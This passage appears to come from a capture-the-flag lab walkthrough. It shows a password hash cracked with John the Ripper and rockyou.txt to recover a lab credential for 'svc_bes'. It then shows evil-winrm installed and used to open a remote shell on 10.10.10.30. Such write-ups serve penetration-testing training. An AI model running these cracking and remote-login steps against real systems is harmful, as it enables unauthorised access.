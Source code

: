 We will use JTR in conjunction with rockyou.txt to obtain the plaintext
password (but we could have also used Hashcat)
``` shell
  ----------------------------------------------------------
  **john hash -wordlist=/usr/share/wordlists/rockyou.txt**
  ----------------------------------------------------------
```
![](media/image147.png)

Below the password for **svc\_bes : Sheffield19**

![](media/image148.png)

It is now possible to access the server as **svc\_bes** using **WinRM **

(With the **nmap scan** we noted that WinRM was enabled on port
**5985)**

<br>

 **Let’s install “*evil-winrm*” (Installation directly as ruby gem)**
```
  ----------------------------
  **gem install evil-winrm**
  ----------------------------
```
![](media/image149.png)

And run it against 10.10.10.30 using “svc\_bes” credentials
```
  ----------------------------------------------------------
  **evil-winrm -i 10.10.10.30 -u svc\_bes -p Sheffield19**
  ----------------------------------------------------------
```
![](media/image150.png)
